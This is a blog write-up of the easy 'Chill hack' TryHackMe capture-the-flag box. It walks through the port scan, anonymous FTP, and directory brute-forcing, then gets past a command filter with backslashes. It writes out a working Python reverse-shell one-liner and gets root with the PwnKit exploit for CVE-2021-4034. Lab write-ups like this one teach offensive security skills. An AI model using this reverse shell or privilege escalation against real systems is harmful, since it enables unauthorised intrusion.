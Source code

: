 ```yaml
---
layout: post
title: Chill hack - TryHackMe write-up
---
```

Write-up for Chill hack TryHackMe CTF

Hi hackers, today I'm gonna write-up chill hack, an easy TryHackMe CTF.

![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_chillhack/chillhack.png)

## User
First, I did port scanning with rustscan and nmap to find any open ports ()
```
$ rustscan -a chillhack.thm -t 2000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

Open 10.10.161.188:21
Open 10.10.161.188:22
Open 10.10.161.188:80

$ nmap -p21,22,80 -A -oN port.txt chillhack.thm
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.53.247
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

After that I started enumerating all services starting from FTP, port 21 was hosting an FTP server allowing anonymous access so I connected and downloaded all file
```
$ ftp chillhack.thm$ ftp chillhack.thm
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        115          4096 Oct 03  2020 .
drwxr-xr-x    2 0        115          4096 Oct 03  2020 ..
-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
226 Directory send OK.
```
note.txt contained the following content:
```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```
Then, I started testing HTTP (port 80) who was hosting the following static web page:
<webpage.png>
That page contained nothing of useful so I did a directory bruteforce with dirsearch
```
$ dirsearch -u http://chillhack.thm -w $LIST/directory/dir.txt -t 50 -o directory.txt

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 329449

Output File: /home/ubuntu/ctf/tmp/directory.txt

Error Log: /home/ubuntu/.local/lib/python3.9/site-packages/dirsearch/logs/errors-22-05-09_21-24-51.log

Target: http://chillhack.thm/

[21:24:52] Starting: 
[21:25:14] 301 -  312B  - /css  ->  http://chillhack.thm/css/
[21:25:29] 301 -  314B  - /fonts  ->  http://chillhack.thm/fonts/
[21:25:38] 301 -  315B  - /images  ->  http://chillhack.thm/images/
[21:25:41] 301 -  311B  - /js  ->  http://chillhack.thm/js/
[21:26:03] 301 -  315B  - /secret  ->  http://chillhack.thm/secret/
[21:26:04] 403 -  278B  - /server-status
[21:26:19] 200 -   34KB - /index.html

Task Completed
<dirsearch.dirsearch.Program object at 0x7f7cbef0b730>
```
I noticed the page secret and found it contained a remote code execution, I tried to execute some command but there's a filter blocking our commands

![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_chillhack/rce.png)

to bypass this filter we can use backslash

![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_chillhack/ls.png)

now we can spawn a reverse shell to get user, here's mine:
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your IP>",<your port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

## Root
After getting user I started finding somethings to get root, and I found something interesting in OS version:
```
www-data@ubuntu:/tmp$ uname -a
Linux ubuntu 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
It's vulnerable to CVE-2021-4034, so I uploaded [PwnKit](https://github.com/ly4k/PwnKit) onto the server and run it

![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_chillhack/pwnkit.png)

It worked, we got root!
See you at the next post, keep hacking
